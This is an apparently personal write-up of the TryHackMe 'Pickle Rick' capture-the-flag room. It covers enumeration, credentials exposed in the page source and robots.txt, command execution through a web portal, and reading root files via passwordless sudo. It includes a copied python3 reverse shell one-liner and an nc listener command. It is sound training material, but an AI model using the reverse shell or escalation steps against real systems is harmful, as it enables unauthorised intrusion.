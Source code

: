 # Pickle Rick Writeup

This CTF is a very easy but also one of my first ever done CTF.
It is on tryhackme, link: https://tryhackme.com/room/picklerick   

---  
<br>  

![show](assets/image_1.png)   


## I first ran nmap, nikto and gobuster:   

![nikto,gobuster and nmap](assets/image_2.png)

We can find:
/login.php (200)
/robots.txt(200)

and in 300:
/portal.php
/assets
  
After the basic enumeration, I looked a bit in the developer tools and,
I found something interesting in the source code:  

![username](assets/image_3.png)   

I then took a look at robots.txt:

![password](assets/image_4.png)   

We can then try it in the login page, and .... It works!  

![login](assets/image_5.png)  

![portal.php](assets/image_6.png) 

In the writable field you can then write commands, for example "whoami":  

![whoami](assets/image_7.png)  

After a ls -al command you can see "Sup3rS3cretPickl3Ingred.txt", but you can't cat it...   

![cat](assets/image_8.png)  

So I tried to less it, and it works!

![flag1](assets/image_9.png) 

You can actually already find the second flag 

![flag2](assets/image_10.png)

BUT when using the command "sudo -l" to see what command we can run, we see something interesting:

![sudo](assets/image_11.png)

We can run all commands with no password.
SO, we can run "sudo ls -al /root" And there it is!

![flag3](assets/image_12.png)

So with a simple "sudo less /root/3rd.txt, We get the 3rd and last flag!

---
# Other technique of resolution   

This works, but isn't the cleanest technique, we could also send a reverse shell, the python one works, but only python3!  

From: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md  

### Don't foget to put your IP and port if you want!  
<br>  

- Shell: export RHOST="<IP>";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

- Listener: nc -lvnp 4444   
  
You can then work directly from your terminal!

![shell](assets/image_13.png)  

---  

# Hope you enjoyed it!

### Contact: alex.spiesberger@gmail.com





  

